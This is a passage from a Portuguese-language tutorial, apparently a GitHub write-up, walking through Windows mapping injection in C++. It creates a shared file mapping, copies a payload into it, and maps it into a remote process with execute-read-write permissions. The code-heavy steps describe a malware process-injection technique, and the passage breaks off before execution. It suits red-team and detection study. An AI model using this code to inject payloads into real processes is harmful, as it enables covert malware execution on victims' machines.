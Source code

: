 Caso a criação do mapeamento de arquivo falhe, defino o estado como `FALSE` e exibo uma mensagem de erro. A função termina neste ponto, caso haja uma falha.

---
### **Mapeamento Local da Memória**<br>
Depois que o objeto de mapeamento é criado com sucesso, o próximo passo é mapear essa memória para o meu processo:

```cpp
enderecoLocal = MapViewOfFile(handleMapeamentoArquivo, FILE_MAP_WRITE, NULL, NULL, tamanhoPayload);
if (enderecoLocal == NULL) {
    SetConsoleColor(FOREGROUND_RED | FOREGROUND_INTENSITY);
    std::cerr << "[!] Erro ao mapear a visão do arquivo." << std::endl;
    estado = FALSE;
    goto FimDaFuncao;
}
```

`MapViewOfFile`: Com essa função, estou mapeando o objeto de arquivo que criei para o espaço de memória do meu processo. Isso me dá acesso direto à memória onde eu poderei copiar o payload. O `FILE_MAP_WRITE` me garante permissão para escrever na memória mapeada.<br>

E se essa operação falhar, a execução também é interrompida, com uma mensagem de erro sendo exibida.

---
### **Cópia do Payload**<br>
Agora que a memória foi mapeada para o meu processo local, o próximo passo é copiar o payload para essa área de memória:

```cpp
memcpy(enderecoLocal, payload, tamanhoPayload);
```

Aqui, simplesmente utilizo a função `memcpy` para copiar o conteúdo do payload para o endereço de memória local que foi mapeado anteriormente.

---
### **Mapeamento Remoto da Memória**
O próximo passo, e o mais importante, é mapear essa memória compartilhada no processo remoto, onde o payload será injetado:

```cpp
enderecoMapeamentoRemoto = MapViewOfFile2(handleMapeamentoArquivo, handleProcesso, NULL, NULL, NULL, NULL, PAGE_EXECUTE_READWRITE);
if (enderecoMapeamentoRemoto == NULL) {
    SetConsoleColor(FOREGROUND_RED | FOREGROUND_INTENSITY);
    std::cerr << "[!] Erro ao mapear a visão do arquivo remoto." << std::endl;
    estado = FALSE;
    goto FimDaFuncao;
}
```

`MapViewOfFile2`: Aqui eu utilizo essa função para mapear o mesmo objeto de memória no espaço de endereço do processo remoto, usando o `handleProcesso` que recebi como argumento. Se a operação for bem-sucedida, a variável `enderecoMapeamentoRemoto` conterá o endereço remoto onde o payload foi mapeado.
